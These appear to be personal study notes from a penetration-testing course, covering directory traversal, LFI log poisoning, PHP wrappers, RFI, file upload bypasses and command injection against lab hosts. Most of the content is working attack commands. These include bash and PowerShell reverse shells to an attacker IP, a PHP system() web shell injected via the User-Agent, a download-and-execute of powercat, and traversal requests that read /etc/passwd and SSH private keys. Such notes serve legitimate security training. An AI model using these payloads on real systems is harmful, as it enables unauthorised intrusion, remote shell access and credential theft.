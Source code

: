 
## 9.1 Dir Traversal

##### Identifying and Exploiting Dir Traversals
- Look for php scripts ex: //example.com/cms/login.php?language=en.html
	- Navigate to parameter directly to see if a file on server ex: //example.com/cms/en.html
	- If php is calling file as agument -> success ex: //example.com/cms/login.php?language=../../../etc/passwd
- Use curl or burp to format passwd or ssh keys correctly
	- Chmod ssh keys

##### Encoding Special Characters
- replace . with %2e and and / with %2f to defeat filters

## 9.2 LFI

##### LFI
- LFI: execution of code using dir traversal vulnerability
- Log poisoning: common LFI vulnerability
	- Requires modifying data sent to web app so that logs contain executable code
- Need to test if log contains user controlled data (i.e user agent string)
	- `curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log`
- If UAS present in log -> use Burp to specify custom executable code within UAS field to get reverse shell
- Insert executable code into the log file
	- (Burpe) `User-Agent: Mozzila/5.0 <?php echo system($_GET['cmd']); ?>`
- Use executable code snippet to get reverse shell
	- Base command: `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`
	- URL encoded: `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22`
	- Curl: `curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=<URL-Enc Reverse Shell>`

##### PHP Wrappers
- PHP offers different wrappers to enchance language functions
- Two common wrappers
	- php://filter
		- use to display contents of executable files instead of executing
	- data://
		- embed executable code as plaintext or base64
		- needs allow_url_include (not default)
- PHP wrapper exploitation
	- Base URL: `curl http://mountaindesserts.com/meteor/index.php?page=admin.php`
	- Curl w/ PHP filter: `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`
	- Base 64 encode PHP file: `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
	- Decode on box to view function/steal creds
- DATA wrapper exploitation
	- Base URL: `curl http://mountaindesserts.com/meteor/index.php?page=admin.php`
	- Encode payload: `echo -n '<?php echo system($_GET["cmd"]);?>' | base64` 
	- Embed code: `curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`

##### RFI
- Execution of remote files over http or smb in context of web server
- Needs allow_url_include enabled (not default)
- List of usable PHP shells in /usr/share/webshells/php/

Steps:
1. Switch to /usr/share/webshells/php/ on attack box
2. Host webserver on attack box
3. Curl target URL with desired webshell included in the URL

```
1. cd /usr/share/webshells/php/

2. python3 -m http.server 80

3. curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

```


## 9.3 File Upload Vulnerabilities

#### Using Executable Files
- use of authorized upload forms to upload unauthorized executables
- requires bypass of control filters on web server

Steps:
1. Upload innocent text file to verify upload allows non-images
2. Attempt upload of PHP executable code (/usr/share/webshells/php/simple-backdoor.php)
	1. If failure, change extension to old versions of PHP .phps, .php7
	2. If failure, change capitalization of extension, .pHP
3. Upgrade to interactive shell (ex: Powershell if Windows)
	1. -enc = base64 encoded command to follow

```
1. echo "this is a test" > test.txt //upload to meteor/uploads 

2. cp ./simple-backdoor.php ./simple-backdoor.pHP //upload

3. curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir

4. pwsh  //creating PS reverse shell and Base64-ing

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedTest

5. nc -nvlp 4444

6. curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20<BASE64-String> //verify URL encoding correct

7. //Catch reverse shell
```


#### Using Non-executable Files
- Use of upload forms to overwrite system files (ex: SSH keys) if uploaded files cannot be executed
- For non-executable file exploitation, need to leverage other vulnerabilities like dir traversal
- Case study uses upload to overwrite SSH key on Linux machine 
	- Exploits Administrators running web server as root to avoid permission issues

Steps:
1. Locate upload form
2. Send http POST through Burp Repeater and specify relative path (../../../../../../test.txt) for file upload
3. Create key pair on Kali (might need to delete /.ssh/known_hosts locally) 
4. Add public key to authorized_key file
5. Overwrite SSH root key on server 
6. SSH 

```
3. ssh-keygen

4. cat <SSH-Keygen-File> > authorized_keys

5. //In Burp Repeater set Content-Disposition filename=../../../../../root/.ssh/authorized_keys

6. ssh -p 2222 -i <SSH-Keygen-File> root@mountaindesserts.com
```


## 9.4 Command Injection
- Relies on developers directly accepting and (attempting) saniziting user input
- Need to locate upload form that allows you to input code directly before escaping 
- Case study exploits web form for inputting user git repository clone requests

Steps
1. Locate upload form
2. Send traffic to Burp Rpeater to determine how commands are being pushed to the web server (in our case it's `Archive=<git clone request>`)
3. Directly curl Archive parameter with test command 
	1. need to determine what commands will be accepted or blocked
4. Escape sanitization to determine OS info and upload appropriate shell

```
3. //figure out how to escape sanitization
curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

4.1 //We've found its windows, dtr if cmd or powershell env
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell    //base command

curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive    //base64 encoded curl

4.2 // choose shell, set up transfer, and listen
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 ./

python3 -m http.server 80

nc -nvlp 4444

4.3 //upload 
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  //download powercat and execute

curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive      //actual curl with above command


```





## CV

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```


## Exercises

```
9.1.2-3
curl http://192.168.193.193:3000/public/plugins/alertlist/../../../../../../../home/offsec/.ssh/id_rsa
```
